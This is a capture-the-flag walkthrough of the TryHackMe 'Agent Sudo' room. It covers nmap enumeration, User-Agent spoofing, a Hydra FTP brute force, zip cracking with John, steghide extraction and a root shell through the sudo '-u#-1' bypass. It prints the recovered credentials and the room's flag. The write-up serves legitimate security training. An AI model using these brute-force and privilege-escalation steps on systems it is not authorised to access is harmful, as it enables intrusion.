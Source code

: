 ## Agent Sudo - Try Hack Me

## 1. Overveiw
**NMAP**
**cURL**
**Hydra**
**FTP**
**JohnTheRipper**
**Steganography**
- **Binwalk**
- **Steghide**
**Linpeas**
**SUID - CVE (PrivEsc)**

Link to the machine: https://tryhackme.com/room/agentsudoctf


## 2. Enumerate
### 2.1 Scan the machine, how many ports are open?
```sh
export IP=10.10.205.137
```

First we do a **NMAP** scan:
```sh
nmap -sV -sC -oN nmap/initial $IP
```

We have 3 ports open:
- **21 FTP**
- **22 SSH**
- **80 HTTP**


### 2.2 What is the agents name?
They are hinting that we have to change the User-Agent field in the header.
We can do this either in the *inspect element* in the browser and just edit the header and change the name to the user agents name.
We can also do this with cURL:

```sh
curl -H "User-Agent: C" -L  http://10.10.125.14/
```

And we can see that there is a note for agent C, and his username is `Chris`

And we get a response back. I only tested the username as "C" because on the first page it said the note was from Agent R. So i tried A, B and C first.
Follow this [link](https://ec.haxx.se/http/http-requests) for more info on cURL

## 3 Hash Cracking and Brute-force
### 3.1 FTP Password
We run Hydra for this one on the FTP port
From the previous task we got his username: `chris`, so we will use this


```sh
hydra -t 1 -l chris -P /usr/share/wordlists/rockyou.txt $IP ftp
```

-e nsr    try "n" null password, "s" login as pass and/or "r" reversed login
-l LOGIN or -L FILE  login with LOGIN name, or load several logins from FILE
-t TASKS  run TASKS number of connects in parallel per target (default: 16)
-v Verbose mode (if you need it, but it will only run slower)
-P Passwrod list, since it is uppercase it means you have to specify a FILE

Hydra found this:
```sh
[DATA] attacking ftp://10.10.125.14:21/
[21][ftp] host: 10.10.125.14   login: chris   password: crystal
[STATUS] 14344398.00 tries/min, 14344398 tries in 00:01h, 1 to do in 00:01h, 15 active
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-10-06 04:15:46
```

And we have the username and password `chris:crystal`

We then use ftp to connect to the server and download the files in there.

```sh
ftp $IP
chris
crystal
dir
get To_agentJ.txt
get cute-alien.jpg
get cuties.png
```


### 3.3 Zip file password and 3.4 Steg password
First we use `binwalk` on the pictures and see that cuties.png does contain a zip file.
Then we use the `-e` to export the contents of the picture.
So now we have a zip file, and we just need to crack the password of it with `johntheripper`

```sh
zip2john 8702.zip>zipfile.txt
john --format=zip zipfile.txt
```

And this was the output:

```sh
Using default input encoding: UTF-8
Loaded 1 password hash (ZIP, WinZip [PBKDF2-SHA1 256/256 AVX2 8x])
Will run 2 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Warning: Only 10 candidates buffered for the current salt, minimum 16 needed for performance.
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
	alien            (8702.zip/To_agentR.txt)
1g 0:00:00:01 DONE 2/3 (2020-10-06 04:50) 0.8064g/s 35474p/s 35474c/s 35474C/s 123456..Peter
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

And the password for this zipfile is `alien`

After that we can unzip the file with `7z x 8702.zip` with the password, and we have another To_agentR.txt file. It cointains:
```
Agent C,

We need to send the picture to 'QXJlYTUx' as soon as possible!

By,
Agent R
```

We use base64 on that:
```sh
echo "QXJlYTUx" | base64 -d
```
And we get `Area51`


### 3.5 Who is the other agent (in full name)?
So far we have:
Agent C - chris:crystal
Agent J - XXXXX:XXXXX
Agent R - XXXXX:XXXXX

To be able to use that password we just found, there would have to be something with the last remaining picture.
So we use steghide to extract out anything from that picture:

```sh
steghide extract -sf cute-alien.jpg
```

This will ask for a password, and we give it `Area51` as we found in the previous task.
Then we get a file calles `message.txt`, and this is the contents if we `cat` it out:
```
Hi james,

Glad you find this message. Your login password is hackerrules!

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
```

We now have a username and password for agent J.
`Agent J - james:hackerrules!`


### 3.6 SSH password
It is `james:hackerrules!`


## 4 Userflag
Found the userflag in the home directory when we logged into the james account over ssh


## 5 rootflag
User linpeas to check for privesc stuff:

*On our machine:*
```sh
python3 -m http.server
```

*On the victim machine:*
```sh
wget "<ourIP>:8000/linpeas.sh"
```

Then we mark it executable and run it.
Here are some of the more usefull from the scan:

**VERSIONS**
```
Linux version 4.15.0-55-generic (buildd@lcy01-amd64-029) (gcc version 7.4.0 (Ubuntu 7.4.0-1ubuntu1~18.04.1)) #60-Ubuntu SMP Tue Jul 2 18:22:20 UTC 2019
Distributor ID: Ubuntu
Description:    Ubuntu 18.04.3 LTS
Release:        18.04
Codename:       bionic
Sudo version 1.8.21p2
```

We see that james is in the sudo group and we can run the following command to see what he can run:
`sudo -l` and it will output this:

```sh
sudo -l
Matching Defaults entries for james on agent-sudo:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash
```

So we can run /bin/bash on james as root. And we found an exploit explaining all of this [here](https://www.exploit-db.com/exploits/47502)
If we just try `sudo bash` we get an error saying we cant do it as root. However, the exploit has a way of buypassing this, and we run the following command `sudo -u#-1 /bin/bash`
Here is the description on how it works from exploitDB:

*Description :
Sudo doesn't check for the existence of the specified user id and executes the with arbitrary user id with the sudo priv
-u#-1 returns as 0 which is root's id*

We then type the command `sudo -u#-1 /bin/bash` and get a root shell back.
Then we can just simply cat the root.txt file out of the `root` folder.

It cointains:
```sh
To Mr.hacker,

Congratulation on rooting this box. This box was designed for TryHackMe. Tips, always update your machine.

Your flag is
b53a02f55b57d4439e3341834d70c062

By,
DesKel a.k.a Agent R
```


This is what we eventually found:
Agent C - chris:crystal
Agent J - james:hackerrules!
Agent R - DesKel:


## 6 Resources
1. [Usefull FTP commands](https://www.howtoforge.com/tutorial/how-to-use-ftp-on-the-linux-shell/)
2. [Hydra Cheatsheet](https://github.com/frizb/Hydra-Cheatsheet)
3. [Usefull Stego Tools](https://0xrick.github.io/lists/stego/)
4. [John the Ripper Examples](https://www.hackingcastle.com/2020/05/john-the-ripper-password-cracking-full-tutorial.html)
5. [Final Exploit we used](https://www.exploit-db.com/exploits/47502)
